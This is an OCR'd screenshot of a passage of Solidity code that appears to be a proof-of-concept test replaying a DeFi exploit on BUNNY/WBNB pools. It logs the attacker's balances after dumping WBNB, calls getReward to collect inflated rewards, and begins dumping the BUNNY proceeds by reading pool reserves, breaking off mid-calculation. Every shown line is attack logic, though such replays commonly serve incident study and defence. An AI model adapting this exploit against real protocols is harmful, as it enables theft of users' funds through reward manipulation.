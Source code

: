 │         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "After dumping all WBNB, USDT balance of attacker:",                                                                                                                                                                                      │
│             IERC20(USDT).balanceOf(address(this)),                                                                                                                                                                                                    │
│             IERC20(USDT).decimals()                                                                                                                                                                                                                   │
│         );                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                       │
│         //Collect inflated rewards                                                                                                                                                                                                                    │
│         flip.getReward();                                                                                                                                                                                                                             │
│                                                                                                                                                                                                                                                       │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "After collecting rewards, BUNNY balance of attacker:",                                                                                                                                                                                   │
│             IERC20(BUNNY).balanceOf(address(this)),                                                                                                                                                                                                   │
│             IERC20(BUNNY).decimals()                                                                                                                                                                                                                  │
│         );                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                       │
│         //Dump BUNNY                                                                                                                                                                                                                                  │
│         emit log_string("Dumping all BUNNY for WBNB on WBNB+BUNNY pool...");                                                                                                                                                                          │
│         {                                                                                                                                                                                                                                             │
│             uint256 bunnyBalance = IERC20(BUNNY).balanceOf(address(this)) - 1;                                                                                                                                                                        │
│             (uint256 reserve0, uint256 reserve1, ) = WBNBBUNNY.getReserves();                                                                                                                                                                         │
│             uint256 amountIn = bunnyBalance;                                                                                                                                                                                                          │
